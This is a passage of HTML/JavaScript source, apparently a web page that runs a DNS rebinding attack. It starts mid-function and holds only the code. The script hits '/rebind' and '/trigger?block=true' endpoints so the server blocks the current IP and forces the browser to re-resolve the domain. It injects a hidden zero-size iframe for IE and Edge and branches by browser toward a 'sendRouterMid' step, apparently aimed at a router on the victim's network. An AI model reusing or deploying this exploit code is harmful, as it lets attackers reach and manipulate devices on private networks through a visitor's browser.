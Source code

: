 ~~~HTML
		return;
	}
	else	{
		setTimeout(function () { sendReq("GET", url + "/rebind?browser=" + browser() + "&delay=" + (sent*(wait/1000)), null, sendIntervals); }, wait);
	}
	return;
}

function triggered(xhr)	{
	console.log("Sent trigger domain: " + document.domain);
	
	// If xhr is null or a non-200 code was returned, we were not successfull,
	// potentially because we are at the wrong IP
	if(xhr != null && xhr.status != 200)	{
		console.log("Failed to trigger on domain");
		return;
	}

	if(browser() == "IE" || browser() == "Edge")	{
		// Insert so that the browser knows the IP is "down"
		var img = "<img src='" + target_URL() + "/test.png'>";
		document.getElementById("inject").innerHTML = img;
		sendRouterMid(null);
	}
	else if(browser() == "Firefox")	{
		sendIntervals(null);
	}
	else	{
		sendRouterMid(null);
	}
}

var url = target_URL();	// Get current URL in the format: http://domain.example.com

if(browser() == "IE" || browser() == "Edge")	{
	var domain = document.domain;

	// Check if this is the first page loaded or the second page
	if(domain.indexOf(".b.") > 0)	{
		// 2. page, we need to block this IP on the server
		sendReq("GET", url + "/trigger?block=true&time=60", null, triggered);
	}
	else	{
		// 1. page, we need to insert a new iframe
		var ind2 = domain.indexOf(".a.");
		var rootDomain = domain.substring(ind2 + 3);
		var iframe = '<iframe width="0" height="0" src="http://' + rootDomain + '/redirect?sub=b" frameborder="0"></iframe>';
		document.getElementById("inject").innerHTML = iframe;
	}
}
else	{
	sendReq("GET", url + "/trigger", null, triggered);
}
</script>
</body>
</html>
~~~
